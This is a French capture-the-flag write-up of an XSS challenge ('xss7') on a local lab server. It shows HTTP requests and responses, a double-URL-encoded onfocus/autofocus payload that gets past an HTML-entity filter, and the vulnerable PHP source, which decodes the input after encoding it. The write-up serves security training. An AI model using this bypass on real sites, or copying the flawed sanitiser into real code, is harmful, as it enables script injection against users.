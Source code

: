 # xss7

## Exploitation

Dans cet avant dernier challenge, l'application encode maintenant les chevrons `<` et `>` ainsi que le caractère `"` :&#x20;

![](<../../../.gitbook/assets/image (120).png>)

Je renseigne ces caractères afin de mieux déterminer le traitement effectué :

```http
POST /xss7/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss7/

search=whatever%3C%3E%22&submit=Envoyer
```

Les caractères sont ici correctement encodés par une transformation en entités HTML :&#x20;

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2130
Connection: close
Content-Type: text/html; charset=UTF-8



<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever&lt;&gt;&quot;" placeholder="keyword" required>
</div> 
```

![](<../../../.gitbook/assets/image (141).png>)

Je tente d'utiliser le caractère `'` à la place de `"` mais cela ne fonctionne pas. Il me faut donc trouver une payload représentée sous un autre format que les caractères filtrés. Au bout de quelques essais je tente l'encodage URL `whatever%2522+onfocus%3D%2522alert%281%29%2522+autofocus+x%3D%2522` :&#x20;

```http
POST /xss7/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss7/

search=whatever%2522+onfocus%3D%2522alert%281%29%2522+autofocus+x%3D%2522&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2150
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever" onfocus="alert(1)" autofocus x="" placeholder="keyword" required>
</div>
```

Et cela fonctionne :&#x20;

![](<../../../.gitbook/assets/image (135).png>)

## Analyse du code source

La fonction `xss_check()` effectue bien les modifications indiquées par l'auteur, à savoir la transformation en entités HTML des caractères `<`, `>` et `"`. L'injection avec le caractère `'` n'est en effet pas possible ici, car la construction du code s'effectue bien avec le double guillemet. L'injection en utilisant l'encodage URL est possible ici car l'application effectue un `urldecode()`, je ne pense pas que l'injection soit possible sans cela :thinking: :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    $input = str_replace("<", "&lt;", $data);
    $input = str_replace(">", "&gt;", $input);
    $input = str_replace("\"", "&quot;", $input);
    $input = urldecode($input);
    
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```
